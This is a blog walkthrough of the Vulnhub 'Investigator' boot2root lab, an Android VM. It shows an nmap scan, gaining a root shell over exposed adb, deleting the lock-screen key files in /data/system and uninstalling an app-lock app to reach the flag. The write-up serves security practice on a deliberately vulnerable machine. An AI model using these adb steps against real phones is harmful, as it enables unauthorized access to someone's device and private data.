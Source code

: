 ```yaml
---
date: 2020-07-21 01:20:12
layout: post
title: "Investigator Vulnhub Walkthrough"
subtitle:
description: Investigator:1 is a boot2root VM from Vulnhub. This is an android machine and its difficulty is easy.
image: /assets/img/uploads/investigator/detective.png
optimized_image: /assets/img/uploads/investigator/detective-optimized.png
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: investigator, investigator 1 walkthrough, investigator writeup, investigator vulnhub walkthrough, vulnhub investigator, infosec articles, vulnhub investigator walkthrough 
---
```


Today I will be sharing a walkthrough of Investigator machine available on Vulnhub. This is an android machine and rated for absolute beginners. This includes connecting to the VM via adb and then bypassing its security to read our flag. Let's Begin!

## Enumeration

I started the enumeration by running a port scan with Nmap, checking default scripts.

```r
root@kali:~# nmap -sC -sV -oN nmap/initial 192.168.1.9

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.9
Host is up (0.00018s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE  VERSION
5555/tcp open  freeciv?
8080/tcp open  http     PHP cli server 5.5 or later
|_http-title: Welcome To  UnderGround Sector
MAC Address: 08:00:27:B3:57:0D (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.06 seconds
```
Port 8080 was running a php webserver. Looking at it in the browser, there was some information but it was not clear. 

<img src="/assets/img/uploads/investigator/port8080.png">

I started a gobuster scan in the background but that didn't give me any interesting directory. Then I moved to the next port 5555 for further enumeration. For connecting to this port you need to install <b>adb.</b> You can install it by using the following command:

```r
$ sudo apt install adb
```

After installing, we can connect the target machine to adb by using the <b>adb connect</b> command followed by the IP of the machine and we can also see the connected devices using <b>adb devices</b> command.

```r
root@kali:~# adb connect 192.168.1.9
connected to 192.168.1.9:5555

root@kali:~/Documents/vulnhub/investigator# adb devices
List of devices attached
192.168.1.9:5555        device
```
Once the device is connected, we can open a shell on the target machine via adb using <b> adb shell</b> command. We can then pivot to root using <b>su.</b>

```r
root@kali:~# adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)

@x86:/ $ su
uid=0(root) gid=0(root)@x86:/ #
```

Now we can read our first flag present in the home directory.

```r
uid=0(root) gid=0(root)@x86:/ # cd /data/root/
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
Great Move !!!

Itz a easy one right ???

lets make this one lil hard
                       

You flag is not here  !!!


Agent "S"   Your Secret Key ---------------->259148637
```

## Final Flag

Next, I tried to use the android machine manually, The machine displays a lock screen and asks us to enter a pin. I tried entering the pin 6666666666 and 259148637 but none of them worked.

<img src="/assets/img/uploads/investigator/lock-screen.png">

We can bypass this login screen using adb. For this we need to delete the login key present in the system directory.

```r
uid=0(root) gid=0(root)@x86:/data/root # rm /data/system/*.key
uid=0(root) gid=0(root)@x86:/data/root # exit
```

Now when you restart the machine, the login screen does not appear. We can now access all apps inside the phone, but most of them are still protected by a third party app lock.

<img src="/assets/img/uploads/investigator/app-lock.png">

We need to use adb again to remove this app. Use the <b>adb uninstall</b> command followed by the app name to uninstall any app. In this case, I'll be removing the app lock.

```r
root@kali:~# adb uninstall com.martianmode.applock
```

Once the app lock is uninstalled, restart the machine, Now it will not ask for any password and we can read the final flag in the Messages App.

<img src="/assets/img/uploads/investigator/flag.png">

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future! If you have any queries, you can contact me <a href="/contact">here.</a> 

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/wuzx">wuzx.</a>